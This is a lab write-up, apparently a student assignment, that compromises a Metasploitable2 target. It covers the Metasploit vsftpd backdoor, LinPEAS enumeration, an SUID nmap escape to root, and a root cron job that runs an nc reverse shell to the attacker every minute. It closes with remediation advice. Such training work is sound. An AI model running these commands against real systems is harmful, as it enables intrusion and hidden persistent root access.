









---
# Privilege Escalation & Persistence Lab
---

## Objective
Demonstrate privilege escalation using LinPEAS enumeration and SUID exploitation, followed by persistent access via cron job on vulnerable Linux target.

**Target**: Metasploitable2 (192.168.198.130)  
**Attacker**: Kali Linux (192.168.198.128)

---

## Tools Used
| Tool               | Purpose                                |
| ------------------ | -------------------------------------- |
| LinPEAS            | Linux enumeration & priv-esc discovery |
| Meterpreter/Netcat | Shell handling & reverse shells        |
| Metasploit         | Initial exploitation                   |

---

## Phase 1: Initial Access

### Step 1: Get Initial Shell
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.198.130
set LHOST 192.168.198.128
run
````

**Result**: Command shell access.

<p align="center">
  <br>
  <b>Figure 1: Initial Shell Access</b>
</p>

---

## Phase 2: Enumeration with LinPEAS

### Step 1: Upload & Run LinPEAS

**On Kali - Host the file**

```bash
Navigate to linpeas.sh location 
cd /path/to/linpeas/ 
python3 -m http.server 80 # OR python3 -m http.server 8000
```

<p align="center">
  <br>
  <b>Figure 2: Hosting LinPEAS on Attacker Machine</b>
</p>

**On Target - Machine**

```bash
wget http://192.168.198.128/linpeas.sh
```

<p align="center">
  <br>
  <b>Figure 3: LinPEAS Uploaded to Target</b>
</p>

```bash
chmod +x linpeas.sh
./linpeas.sh
```

<p align="center">
  <br>
  <b>Figure 4: Running LinPEAS Enumeration</b>
</p>

---

### Key Findings from LinPEAS

* SUID binaries -- `find / -perm -4000 2>/dev/null`
* Writable cron files -- `crontab -l, /etc/cron.d/`
* Weak sudo permissions
* Kernel exploits -- `uname -r`
* PATH hijacking

---

## Phase 3: Privilege Escalation (SUID Exploit)

---

### Step 1: Manual SUID Check

```bash
find / -perm -4000 2>/dev/null
```

<p align="center">
  <br>
  <b>Figure 5: SUID Binary Enumeration</b>
</p>

**Common Vulnerable SUID Binaries**:

* `/usr/bin/nmap`
* `/usr/bin/find`
* `/usr/bin/vim`

---

### Step 2: Exploit nmap SUID

```bash
/usr/bin/nmap --interactive
!sh
```

**Result**: Root shell obtained (`id` shows uid=0(root))

<p align="center">
  <br>
  <b>Figure 6: Root Shell via SUID nmap Exploit</b>
</p>

---

## Phase 4: WRITABLE CRON JOBS

---

### Step 1: Create Reverse Shell Payload

```bash
cat > /tmp/persist.sh << 'EOF'
#!/bin/bash
/bin/nc -e /bin/bash 192.168.198.128 4444
EOF

chmod +x /tmp/persist.sh
```

---

### Step 2: Setup Cron Job

```bash
echo "* * * * * root /tmp/persist.sh" >> /etc/crontab
```

<p align="center">
  <br>
  <b>Figure 7: Cron Job Setup for Persistence</b>
</p>

---

### Step 3: Verify Cron Job

```bash
cat /etc/crontab
```

<p align="center">
  <br>
  <b>Figure 8: Verification of Cron Job Entry</b>
</p>

---

### Step 4: Start Listener (Attacker Machine)

```bash
nc -lvnp 4444
/bin/bash -i
```

---

**Result**

A reverse shell connection is established every minute, ensuring persistent access to the target system.

<p align="center">
  <br>
  <b>Figure 9: Reverse Shell via Cron Persistence</b>
</p>

---

## Privilege Escalation Log (Required Format)

| Task ID | Technique           | Target IP       | Status  | Outcome                               |
| ------- | ------------------- | --------------- | ------- | ------------------------------------- |
| 010     | LinPEAS Enumeration | 192.168.198.130 | Success | SUID binaries + cron paths identified |
| 020     | SUID Exploit (nmap) | 192.168.198.130 | Success | Root Shell obtained                   |
| 030     | Kernel Exploit      | 192.168.198.130 | N/A     | Not required                          |
| 040     | Cron Persistence    | 192.168.198.130 | Success | Reverse shell every 60 seconds        |

---

## Persistence Summary

Persistence achieved via root cron job executing reverse shell script every minute. Script connects back to attacker's nc listener (192.168.198.128:4444). Survives reboots, provides continuous root access. Simple, effective, stealthy - demonstrates real-world attacker persistence technique using legitimate system scheduling.

---

## Checklist (Google Docs Ready)

* [ ] LinPEAS executed & findings documented
* [ ] SUID misconfiguration identified (nmap)
* [ ] Root shell obtained via priv-esc
* [ ] Cron persistence established & verified
* [ ] 4 Screenshots captured with captions
* [ ] Log table completed as required

---

## Key Findings

| Vulnerability         | Impact      | Evidence              |
| --------------------- | ----------- | --------------------- |
| SUID nmap             | Root access | `find / -perm -4000`  |
| Writable /etc/crontab | Persistence | `ls -la /etc/crontab` |
| No cron monitoring    | Stealth     | No alerts triggered   |

---

## Remediation Steps

1. `chmod u-s /usr/bin/nmap` - Remove SUID bit
2. Audit cron: `cat /etc/crontab /etc/cron*/*`
3. Monitor scheduled tasks: Install auditd
4. Apply least privilege principle
5. Regular patching & hardening

---
## Conclusion

This lab demonstrated how a vulnerable Linux system can be fully compromised through a combination of enumeration, privilege escalation, and persistence techniques. Using LinPEAS, critical misconfigurations such as SUID binaries and weak system settings were identified. Exploitation of a SUID-enabled binary resulted in successful privilege escalation to root level access.

Furthermore, persistence was established using a cron job that executed a reverse shell at regular intervals, ensuring continuous access to the system even after reboot. This highlights how attackers can maintain long-term control using legitimate system functionalities.

Overall, the lab emphasizes the importance of proper system hardening, removal of unnecessary SUID permissions, and monitoring of scheduled tasks to prevent privilege escalation and persistence-based attacks in real-world environments.
